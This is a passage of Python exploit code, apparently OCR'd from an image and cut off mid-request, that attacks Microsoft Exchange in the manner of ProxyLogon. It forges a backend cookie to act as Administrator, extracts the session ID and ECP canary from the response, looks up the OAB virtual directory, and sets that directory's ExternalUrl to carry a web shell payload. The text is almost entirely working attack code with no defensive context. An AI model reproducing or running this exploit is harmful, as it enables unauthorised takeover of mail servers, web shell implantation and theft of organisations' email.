 ```python
            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                "Cookie": "X-BEResource=Administrator@%s:444/ecp/proxyLogon.ecp?a=~1942062522;" % FQDN,
                "Content-Type": "text/xml",
                "msExchLogonMailbox": "S-1-5-20",
                "User-Agent": user_agent
            },
                data=proxyLogon_request,
                proxies=proxies,
                verify=False
            )
            if ct.status_code != 241 or not "set-cookie" in ct.headers:
                print("Proxylogon Error!")
                exit()

            sess_id = ct.headers['set-cookie'].split(
                "ASP.NET_SessionId=")[1].split(";")[0]

            msExchEcpCanary = ct.headers['set-cookie'].split("msExchEcpCanary=")[
                1].split(";")[0]
            print("Got session id: " + sess_id)
            print("Got canary: " + msExchEcpCanary)

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
                # "Cookie": "X-BEResource=Administrator@%s:444/ecp/DDI/DDIService.svc/GetObject?schema=OABVirtualDirectory&msExchEcpCanary=%s&a=~1942062522; ASP.NET_SessionId=%s; msExchEcpCanary=%s" % (
                # FQDN, msExchEcpCanary, sess_id, msExchEcpCanary),

                "Cookie": "X-BEResource=Admin@{server_name}:444/ecp/DDI/DDIService.svc/GetList?reqId=1615583487987&schema=VirtualDirectory&msExchEcpCanary={msExchEcpCanary}&a=~1942062522; ASP.NET_SessionId={sess_id}; msExchEcpCanary={msExchEcpCanary1}".
                            format(server_name=FQDN, msExchEcpCanary1=msExchEcpCanary, sess_id=sess_id,
                                    msExchEcpCanary=msExchEcpCanary),
                            "Content-Type": "application/json; charset=utf-8",
                            "msExchLogonMailbox": "S-1-5-20",
                            "User-Agent": user_agent

                            },
                            json={"filter": {
                                "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                                "SelectedView": "", "SelectedVDirType": "OAB"}}, "sort": {}},
                            verify=False,
                            proxies=proxies
                            )

            if ct.status_code != 200:
                print("GetOAB Error!")
                exit()
            oabId = str(ct.content).split('"RawIdentity":"')[1].split('"')[0]
            print("Got OAB id: " + oabId)

            oab_json = {"identity": {"__type": "Identity:ECP", "DisplayName": "OAB (Default Web Site)", "RawIdentity": oabId},
                        "properties": {
                            "Parameters": {"__type": "JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel",
                                        "ExternalUrl": "http://ffff/#%s" % shell_content}}}

            ct = requests.post("https://%s/ecp/%s" % (target, random_name), headers={
```